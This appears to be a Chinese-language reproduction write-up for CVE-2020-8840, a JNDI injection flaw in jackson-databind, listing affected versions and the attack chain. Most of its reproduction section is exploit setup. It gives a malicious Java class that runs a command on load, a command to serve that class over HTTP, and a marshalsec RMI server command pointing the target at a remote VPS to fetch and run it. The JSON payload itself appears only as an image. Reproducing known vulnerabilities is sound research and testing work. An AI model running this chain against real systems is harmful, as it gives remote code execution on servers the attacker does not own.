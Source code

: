 #  CVE-2020-8840

## 概述 

jackson-databind 是隶属 FasterXML 项目组下的JSON处理库。

受影响版本的jackson-databind中由于缺少某些xbean-reflect/JNDI黑名单类，如org.apache.xbean.propertyeditor.JndiConverter，可导致攻击者使用JNDI注入的方式实现远程代码执行。

![](1.png)

## 影响版本

2.0.0 <= FasterXML jackson-databind Version <= 2.9.10.2

使用ldap和rmi配合JNDI注入对对jdk版本有一定的要求。

![](jndi-repair.jpg)


## 复现

与之前fastjson类似。

**漏洞利用链**：

**靶机-> RMI/LDAP 服务器 -> 恶意类HTTP服务器**

![](2.png)

![](3.png)

<br/>

#### 流量行为：

1.攻击者向靶机发送精心构造的poc

2.靶机接收到poc，假设靶机存在漏洞(未对class黑名单校验的靶机)，会向攻击者搭建的恶意RMI/LDAP服务器发送请求

3.调用远程恶意HTTP服务器上编译的恶意类资源，在靶机上执行任意命令(可能是在内存加载，未落地)

<br/>

在vps上，将编译好的恶意类TouchFile.class放在任意目录。 **根据靶机环境调整恶意类内容**

恶意类：

	import java.lang.Runtime;
	import java.lang.Process;
	
	public class TouchFile {
	    static {
	        try {
	            String[] commands={"calc.exe"};
	            Runtime.getRuntime().exec(commands);
	            
	        } catch (Exception e) {
	            // do nothing
	        }
	    }
	}

**恶意类最好用低版本jdk编译，据说1.6效果最佳,我用1.8编译的恶意类未加载成功，用1.7成功了,也可能跟我靶机java环境有关，我靶机的环境是jdk1.6**

在当前目录启动一个HTTP服务承载 恶意类，使恶意类可以被RMI/LDAP服务器访问。

	python -m SimpleHTTPServer 8000

启动 RMI 服务器

	java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://VPS:8000/#TouchFile 1099


向靶机发送 json 调用 恶意RMI
![](res.png)
